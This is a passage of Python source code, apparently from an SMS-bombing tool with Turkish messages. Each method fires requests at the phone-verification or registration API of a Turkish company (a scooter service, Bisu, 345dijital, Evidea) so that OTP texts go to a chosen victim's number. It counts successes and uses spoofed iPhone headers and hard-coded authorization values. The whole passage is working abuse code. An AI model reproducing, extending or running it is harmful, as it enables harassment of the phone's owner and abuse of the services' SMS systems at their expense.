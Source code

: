                 self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> evidea.com") 


    #heyscooter.com.tr
    def Hey(self):
        try:
            url = f"https://heyapi.heymobility.tech:443/V14//api/User/ActivationCodeRequest?organizationId=9DCA312E-18C8-4DAE-AE65-01FEAD558739&phonenumber={self.phone}&requestid=18bca4e4-2f45-41b0-b054-3efd5b2c9c57-20230730&territoryId=738211d4-fd9d-4168-81a6-b7dbf91170e9"
            headers = {"Accept": "application/json, text/plain, */*", "Accept-Encoding": "gzip, deflate", "User-Agent": "HEY!%20Scooter/143 CFNetwork/1335.0.3.2 Darwin/21.6.0", "Accept-Language": "tr"}
            r = requests.post(url, headers=headers, timeout=6)
            if r.json()["IsSuccess"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> heyapi.heymobility.tech")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> heyapi.heymobility.tech")

        
    #bisu.com.tr
    def Bisu(self):
        try:
            url = "https://www.bisu.com.tr:443/api/v2/app/authentication/phone/register"
            headers = {"Content-Type": "application/x-www-form-urlencoded; charset=utf-8", "X-Device-Platform": "IOS", "X-Build-Version-Name": "9.4.0", "Authorization": "0561b4dd-e668-48ac-b65e-5afa99bf098e", "X-Build-Version-Code": "22", "Accept": "*/*", "X-Device-Manufacturer": "Apple", "X-Device-Locale": "en", "X-Client-Device-Id": "66585653-CB6A-48CA-A42D-3F266677E3B5", "Accept-Language": "en-US,en;q=0.9", "Accept-Encoding": "gzip, deflate", "X-Device-Platform-Version": "15.7.7", "User-Agent": "BiSU/22 CFNetwork/1335.0.3.2 Darwin/21.6.0", "X-Device-Model": "iPhone 7 Plus", "X-Build-Type": "Release"}
            data = {"phoneNumber": self.phone}
            r = requests.post(url, headers=headers, data=data, timeout=6)
            if r.json()["errors"] == None:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> bisu.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> bisu.com.tr")


    #345dijital.com
    def Ucdortbes(self):
        try:
            url = "https://api.345dijital.com:443/api/users/register"
            headers = {"Accept": "application/json, text/plain, */*", "Content-Type": "application/json", "Accept-Encoding": "gzip, deflate", "User-Agent": "AriPlusMobile/21 CFNetwork/1335.0.3.2 Darwin/21.6.0", "Accept-Language": "en-US,en;q=0.9", "Authorization": "null", "Connection": "close"}
            json={"email": "", "name": "Memati", "phoneNumber": f"+90{self.phone}", "surname": "Bas"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["error"] == "E-Posta veya telefon zaten kayıtlı!":
                print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.345dijital.com")
            else:
                raise
        except:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.345dijital.com")
            self.adet += 1
